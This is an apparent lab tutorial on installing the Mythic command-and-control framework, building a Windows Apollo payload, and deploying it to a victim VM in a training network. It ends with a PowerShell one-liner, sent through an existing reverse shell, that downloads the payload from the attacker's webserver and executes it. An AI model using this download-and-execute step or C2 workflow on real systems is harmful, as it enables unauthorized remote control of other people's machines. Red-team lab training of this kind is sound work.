# **Mythic C2 Framework**

Mythic is an open-source Command and Control (C2) framework designed for red team operations and adversary emulation. It allows operators to interact with compromised systems in a stealthy and customizable manner. Originally developed by Cody Thomas (a.k.a. its_a_feature_), Mythic supports multiple agents and payloads that can be tailored to specific operational needs. It provides a robust and modular architecture that includes a web-based interface for managing tasks, communications, and agent development, making it highly flexible for offensive security teams. Mythic is especially valued for its cross-platform support and its ability to integrate with other red teaming tools.

The instructions below will cover the installation of Mythic and creating a payload.

1. Create an Ubuntu server VM. By this point you should be familiar with creating a virtual machine.
2. Set the network adaptor as shown below. This will put it in the attacker subnet. 



 3. From your Kali VM in the same subnet, SSH to the Ubuntu server. 



1. Run the following commands to install Docker and Mythic:

```go
sudo apt-get update && apt-get upgrade
```

```go
sudo apt install docker-compose
```

```go
sudo apt install make
```

```go
git clone https://github.com/its-a-feature/Mythic
```

```go
cd Mythic
```

```go
sudo ./install_docker_ubuntu.sh
```

```go
sudo systemctl start docker
```

```go
sudo make
```

```go
sudo ./mythic-cli start
```

```go
sudo ufw allow 80
```

```go
sudo ufw allow 443
```

Login to the Mythic server with a web browser on your Kali VM. Use the IP address of the Mythic server and port 7443.



The default user is mythic_admin. The password is located in the Mythic directory in a file named .env. It is a hidden file, so make sure you include the -la.





After signing in you should be presented with the dashboard.



Go back to the SSH terminal on Kali and run the command below.

```go
./mythic-cli install github https://github.com/MythicAgents/Apollo.git
```

This installs the Apollo C2 service.



Create a HTTP C2 profile from the SSH connection.

```go
./mythic-cli install github https://github.com/MythicC2Profiles/http
```



Create a payload by selecting the options shown below.



Select the Target Operating System (Windows) and select next.



Select the Payload Type (WinExe) and then select next.



Select all the commands and then select next.



Include profile. Change to HTTP and enter public IP of Mythic server.  Callback port 80. Leave everything else as default.



Once the payload is built, you can download it to your Kali VM.



Move the payload to the /home/elliot directory, so we can use the same webserver to download it to the victim.



### Deploying the Mythic C2 Agent

In this example we will stand up a webserver on our Kali VM and use an existing reverse shell to download and execute the agent on the victim Windows VM. 



```go
powershell -Command Invoke-WebRequest -Uri "[http://10.0.3.2:8000/redwheelbarrow.exe](http://10.0.3.2:8000/theredwheelbarrow.exe)" -OutFile "C:\Users\tcolby\Downloads\redwheelbarrow.exe"; C:\Users\tcolby\Downloads\redwheelbarrow.exe
```

